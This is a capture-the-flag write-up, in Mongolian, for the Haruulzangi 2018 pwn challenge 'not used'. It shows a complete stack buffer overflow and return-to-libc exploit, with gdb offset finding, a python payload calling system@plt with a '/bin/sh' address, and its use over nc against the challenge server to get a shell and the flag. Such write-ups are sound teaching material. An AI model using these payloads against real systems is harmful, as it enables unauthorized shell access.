

# Haruulzangi 2018 Round 1 : not used 

**Category:** Pwn
**Points:** 964
**Solves:** 5
**Description:**

>nc 218.100.84.106 9006 дээр хавсралт дээрх elf ажиллаж байна.
>
>link [notused](notused)
>
>link [notused.c](notused.c)
>
>--
>reamb


## Write-up

Өгөгдсөн `notused` binary файлыг ажилуулвал доорхи үр дүн гарж байв. 
```
[root@reamb home]# ./notused
[+] Feed me more!!!
hello
[+] zuv baildaa
[root@reamb home]#
```
 `notused.c` дээр тухайн програмын бүрэн код хуулагдсан байна. Source код дээрээс харвал дээрх мөрүүд нь хамгийн сонирхолтой хэсгүүд юм.
```
char * n0t_us3d = "/bin/bash";

int    call_me() {
        return system("/bin/date");
}


``` 
Энд хэзээ ч дуудагдахгүй `n0t_us3d` хувьсагчын утгыг `system()` дотор дуудаж чадвал бид shell ажиллуулж чадах юм. 

Юны түрүүнд binary файл дээр бүффер -ийн хэмжээг тооцолж үзье. үүнийг уламжиллалт аргаар ольё. 
```
[root@reamb home]# python -c 'print "A"*128' | ./notused
[+] Feed me more!!!
[+] zuv baildaa
Segmentation fault
```
128 байт аас эхлээд buffer дүүрч алдаа өгч байна. энийг souce code дээрээс  `char buf[128];` -ээр олж болно. Бид stack-г дүүргэн буцах Return address(EIP)  дээр call_me хаяг байршуулж ажилуулах гэж үзье. 

>StackFrame нь  Stack(128 bytes) + EBP(4 bytes) + return adrress(EIP)(4 bytes)  байдаг билээ. 

Үүнийг `gdb` дээр мөн шалгалт хийж тогтооё.

```
[root@reamb home]# python -c 'print "A"*128 + "BBBB"+"CCCC"+"DDDD"' > rea.txt
[root@reamb home]#
```
```

[root@reamb home]# gdb ./notused
GNU gdb (GDB) Red Hat Enterprise Linux 7.6.1-110.el7
Copyright (C) 2013 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-redhat-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /home/notused...done.
gdb-peda$ run < rea.txt
Starting program: /home/./notused < rea.txt
[+] Feed me more!!!

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x8d
EBX: 0xf7fca000 --> 0x1c6da8
ECX: 0xffffd584 ('A' <repeats 128 times>, "BBBBCCCCDDDD\n\206\004\b\024")
EDX: 0x100
ESI: 0x0
EDI: 0x0
EBP: 0x42424242 ('BBBB')
ESP: 0xffffd60c ("DDDD\n\206\004\b\024")
EIP: 0x43434343 ('CCCC')
EFLAGS: 0x10203 (CARRY parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x43434343
[------------------------------------stack-------------------------------------]
0000| 0xffffd60c ("DDDD\n\206\004\b\024")
0004| 0xffffd610 --> 0x804860a (<_fini+6>:      (bad))
0008| 0xffffd614 --> 0x14
0012| 0xffffd618 --> 0x0
0016| 0xffffd61c --> 0xf7e1d1b3 (<__libc_start_main+243>:       mov    DWORD PTR [esp],eax)
0020| 0xffffd620 --> 0x1
0024| 0xffffd624 --> 0xffffd6b4 --> 0xffffd7fb ("/home/./notused")
0028| 0xffffd628 --> 0xffffd6bc --> 0xffffd80b ("XDG_SESSION_ID=504")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x43434343 in ?? ()
Missing separate debuginfos, use: debuginfo-install glibc-2.17-222.el7.i686
```

Эндээс программ нь `0x43434343` буюу `CCCC` хаяг дээр кодыг ажилуулах гээд алдаа зааж байгаа нь харагдаж байна.  тэгвэл бид `CCCC` -н хаягыг call_me() ээр сольж бичиж үзье. call_me() ийн хаягыг эхэлж ольё.

```
[root@reamb home]# objdump -D ./notused |grep call_me
080484dd <call_me>:
```

фүнкцийн санах ой дээрх хаяг олдлоо. үүнийг stack руу бичих тул `[little endian](https://chortle.ccsu.edu/AssemblyTutorial/Chapter-15/ass15_3.html)` буюу урвуугаар бичнэ.
``` 
[root@rea home]# python -c 'print "A"*128 + "BBBB"+"\xdd\x84\x04\x08"' | ./notused
[+] Feed me more!!!
Mon Oct  8 17:13:01 +08 2018
```

бидний хүссэн call_me -г дуудаж чадлаа. Одоо харин `system(/bin/bash)` хэрхэн дуудах вэ? 

Үүнд бид `[Return-to-Libc](https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf)` аргыг ашиглах юм.  Үндсэн санаа нь memory дээр байрших фүнкц утгуудыг дахин дуудаж өөрт ашигтай хувьлбарт оруулан ашиглана. 

|Top of stack        |    EBP    | EIP                         | Dummy return addr |    address of /bin/sh string |
|--------------------|-----------|-----------------------------|-------------------|------------------------------|
|AAAAAAAAAAAAAA      |   BBBB    |   addr of system function   |     DUMM          |   address of /bin/sh string  |


Эндээс бидэнд   `system`  фүнкцийн хаяг болон `/bin/sh` string ийн хаягууд хэрэг болож байна.

```
[root@reamb home]# objdump -D notused |grep system
08048390 <system@plt>:
 80484ea:       e8 a1 fe ff ff          call   8048390 <system@plt>
```
эндээс `system` фүнкцийн хаягийг олж авлаа. `/bin/sh` ийг харин энгийн debugger дээрээс харж болно. 





эндээс нийлүүлээд бичвэл. 
```
[root@reamb home]# python -c 'print "A"*128 + "BBBB"+"\x90\x83\x04\x08" + "DUMM"+ "\x24\x86\x04\x08"' | ./notused
[+] Feed me more!!!
Segmentation fault
```

ажиллахгүй байгаа мэт байна тэхдээ цаанаа `system(/bin/sh)` ажиллаж байгаа gdb дээрээс харж болно. Энд `system(/bin/sh)` ажиллангуута тэр доороо хаагдаж байгаа юм. энийг аргалах амархан арга нь bash дээр `command; cat` хэмээн аргалах боломжтой юм. 


```
[root@reamb home]# (python -c 'print "A"*128 + "BBBB"+"\x90\x83\x04\x08" + "DUMM"+ "\x24\x86\x04\x08"'; cat )| ./notused
[+] Feed me more!!!
date
Mon Oct  8 18:15:22 +08 2018
whoami
root

```
Hurray! ажиллаж байна. 

одоо бид flag авахын тулд сервер рүү хүсэлтийг явуулна. 

```
[root@reamb home]# (python -c 'print "A"*128 + "BBBB"+"\x90\x83\x04\x08" + "DUMM"+ "\x24\x86\x04\x08"'; cat )| nc 218.100.84.106 9006
[+] Feed me more!!!
ls
chall
flag
pow.py
pwn
cat flag
HZ{r3t2l1b_w1ns!!}
```

flag `HZ{r3t2l1b_w1ns!!}`


## Other write-ups and resources

* none yet
